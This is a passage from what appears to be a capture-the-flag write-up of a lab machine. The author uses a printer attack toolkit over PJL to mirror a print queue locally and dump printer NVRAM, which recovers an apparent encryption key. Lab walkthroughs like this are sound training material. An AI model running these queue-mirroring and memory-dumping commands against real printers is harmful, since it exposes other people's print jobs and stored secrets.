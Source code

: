 ```text
10.10.10.201:/> mirror
Creating mirror of /
Traversing pjl/
Traversing pjl/jobs/
0:/pjl/jobs/queued -> /home/zweilos/htb/laser/PRET/mirror/10.10.10.201/0/pjl/jobs/queued
172199 bytes received.
```

The `mirror` command seemed to be pretty interesting, as it created a mirror of the print queue on my local machine.  However, no one seemed to be sending new jobs to the printer.

### Decoding the `queued` file

```text
10.10.10.201:/> nvram
NVRAM operations:  nvram <operation>
  nvram dump [all]         - Dump (all) NVRAM to local file.
  nvram read addr          - Read single byte from address.
  nvram write addr value   - Write single byte to address.
10.10.10.201:/> nvram dump
Writing copy to nvram/10.10.10.201
..................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................k...e....y.....13u94r6..643rv19u
```

The `nvram` command had a dump operation which gave me what looked to be a possible encryption key. 

![](../../.gitbook/assets/3-nvram-key-capture.png)
